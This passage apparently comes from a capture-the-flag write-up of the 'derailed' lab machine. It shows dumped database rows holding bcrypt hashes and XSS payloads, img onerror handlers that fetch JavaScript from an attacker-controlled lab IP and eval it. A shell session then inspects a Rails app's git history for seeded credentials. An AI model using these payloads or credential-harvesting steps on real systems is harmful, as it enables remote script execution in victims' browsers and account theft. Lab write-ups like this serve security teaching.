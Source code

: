     130|Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5<img src='#' onerror=fetch('http://10.10.14.6/fetch').then(function(r){ eval(r);}) />|$2a$12$csPSXYP9.6JBahQzROwPS.C2LuJX4wvJM.BPrXii5qEauhWMYBLLq|user|2023-07-19 21:57:33.337693|2023-07-19 21:57:33.337693
    131|Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5<img src='#' onerror="x=1; alert(x)" />|$2a$12$Ioelh/zWWuxdHYzTOqsHMuZj4t3F8gKpSHmK6iGOrMyw0lZIv/2u.|user|2023-07-19 22:03:48.158132|2023-07-19 22:03:48.158132
    132|Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5<img src='#' onerror="x=await fetch('http://10.10.14.6/await');alert(x)" />|$2a$12$zRhbvL59z3pH3AMfhMHGfeP1RcjLXP2iUGSjpDrOJrNd.4.pWJrOG|user|2023-07-19 22:04:32.743237|2023-07-19 22:04:32.743237
    133|Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5<img src='#' onerror="x=await fetch('http://10.10.14.6/await');" />|$2a$12$QxzqSC2ssf6wPFXnYaOIqemdBaf9RoBt2J2F9lGqrxsZyx93YzTrG|user|2023-07-19 22:05:11.424591|2023-07-19 22:05:11.424591
    134|Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5<img src='#' onerror="fetch('http://10.10.14.6/console').then(r => r.text()).then(t => {alert(t)});" />|$2a$12$gPnbAd9MQFUiWNsRe8n7aO1xcZmrT6JQ3e2TQRxR3xp0GJbLVxLji|user|2023-07-19 22:07:38.687065|2023-07-19 22:07:38.687065
    135|Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5<img src='#' onerror="fetch('http://10.10.14.6/console').then(r => r.text()).then(t => {eval(t)});" />|$2a$12$lifVKjRQjzZZwCyYwtm.u.4La1NSI1ngDyJZy17nD0ZgmGM.Ug5lC|user|2023-07-19 22:08:35.307521|2023-07-19 22:08:35.307521
    136|Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5<img src='#' onerror="fetch('http://10.10.14.6/console').then(r => r.text()).then(t => {eval(t)});" />|$2a$12$EEMTawRNufRV.QTSKpiXlua7g4G5UqY17RYLLJXqekpjAmu66pFB2|user|2023-07-19 22:10:31.450989|2023-07-19 22:10:31.450989
    137|Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5<img src='#' onerror="fetch('http://10.10.14.6/xss.js');" />|$2a$12$LDqjlFDkH9dtnyz.vmSOre/vC6W3kXHfISd1mi3YbQCjQBnd.t3ia|user|2023-07-19 22:20:08.616202|2023-07-19 22:20:08.616202
    138|Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5<img src='#' onerror="fetch('http://10.10.14.6/xss.js').then(r => r.text()).then(t => {console.log(t)});" />|$2a$12$Uysq4iRq0bvaS0LpTjQ/xO7WdTlENRoXSzBC1eXrzcrlMMuuJLNR2|user|2023-07-19 22:24:40.228790|2023-07-19 22:24:40.228790
    139|Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5<img src='#' onerror="fetch('http://10.10.14.6/xss.js').then(r => r.text()).then(t => {eval(t)});" />|$2a$12$F3tZMI3INzmBIfbmlHEXQOQ7IBlE8Qb9TjkWOzVZffI81WGuQAYzC|user|2023-07-19 22:36:30.880049|2023-07-19 22:36:30.880049
    

I’ll grab those two hashes.

There’s also a Git repo in the `rails-app` directory:

    
    
    rails@derailed:/var/www/rails-app$ git log
    commit 5ef649cc9b81893b070c607bdca5e6ed4370b914 (HEAD -> master)
    Author: gituser <gituser@local>
    Date:   Sat May 28 15:01:14 2022 +0200
    
        init
    
    commit 61995bf40dcb332b8979adc32152d73e5546e40c
    Author: gituser <gituser@local>
    Date:   Fri May 27 21:06:07 2022 +0200
    
        init
    
    commit 15df0becc4d8fc989bda8c154637d183258d3af0
    Author: gituser <gituser@local>
    Date:   Thu May 19 21:41:04 2022 +0200
    
        init
    

In the first two commits, there’s a file `db/seeds.rb`. In `15df0bec` it’s
just the default:

    
    
    rails@derailed:/var/www/rails-app$ git checkout 15df0becc4d8fc989bda8c154637d183258d3af0 -f
    ...[snip]...
    HEAD is now at 15df0be init
    rails@derailed:/var/www/rails-app$ ls db/
    development.sqlite3  migrate  schema.rb  seeds.rb
    rails@derailed:/var/www/rails-app$ cat db/seeds.rb 
    # This file should contain all the record creation needed to seed the database with its default values.
    # The data can then be loaded with the bin/rails db:seed command (or created alongside the database with db:setup).
    #
    # Examples:
    #
    #   movies = Movie.create([{ name: 'Star Wars' }, { name: 'Lord of the Rings' }])
